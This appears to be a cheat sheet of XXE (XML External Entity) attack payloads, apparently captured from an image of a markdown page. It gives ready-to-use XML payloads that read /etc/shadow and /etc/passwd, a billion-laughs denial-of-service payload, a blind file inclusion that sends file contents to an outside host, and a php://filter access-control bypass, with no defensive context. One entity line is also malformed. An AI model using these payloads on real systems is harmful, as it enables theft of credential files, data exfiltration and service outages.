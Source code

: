     ```
    <!--?xml version="1.0" ?-->
    <!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
    <userInfo>
     <firstName>John</firstName>
     <lastName>&ent;</lastName>
    </userInfo>

    ```

    #### XXE: Denial-of-Service Example

    ```
    <!--?xml version="1.0" ?-->
    <!DOCTYPE lolz [<!ENTITY lol "lol"><!ELEMENT lolz (#PCDATA)>
    <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;
    <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
    <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
    <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
    <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
    <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
    <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
    <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
    <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
    <tag>&lol9;</tag>

    ```

    #### XXE: Local File Inclusion Example

    ```
    <?xml version="1.0"?>
    <!DOCTYPE foo [
    <!ELEMENT foo (#ANY)>
    <!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>

    ```

    #### XXE: Blind Local File Inclusion Example (When first case doesn't return anything.)

    ```
    <?xml version="1.0"?>
    <!DOCTYPE foo [
    <!ELEMENT foo (#ANY)>
    <!ENTITY % xxe SYSTEM "file:///etc/passwd">
    <!ENTITY blind SYSTEM "https://www.example.com/?%xxe;">]><foo>&blind;</foo>

    ```

    #### XXE: Access Control Bypass (Loading Restricted Resources - PHP example)

    ```
    <?xml version="1.0"?>
    <!DOCTYPE foo [
    <!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=http://example.com/viewlog.php">]>
    <foo><result>&ac;</result></foo>
